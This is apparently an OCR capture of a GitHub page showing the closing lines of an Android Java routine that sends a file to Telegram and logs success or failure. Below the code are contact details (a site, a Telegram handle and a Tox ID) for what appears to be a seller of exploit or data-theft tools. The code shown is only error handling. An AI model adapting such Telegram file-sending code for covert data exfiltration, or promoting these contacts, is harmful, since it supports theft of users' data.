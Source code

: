 ```
                    if (response.isSuccessful()) {
                        Log.d("Telegram", "good");
                    } else {
                        Log.e("Telegram", "bad: " + response.message());
                    }
                }
            });

        } catch (IOException e) {
            Log.e("Telegram", "errors file send", e);
        }
    }
```
<img align="left" src="https://injectexp.dev/assets/img/logo/logo1.png">
Contacts:
injectexp.dev / 
pro.injectexp.dev / 
Telegram: @Evi1Grey5 [support]
Tox: 340EF1DCEEC5B395B9B45963F945C00238ADDEAC87C117F64F46206911474C61981D96420B72

















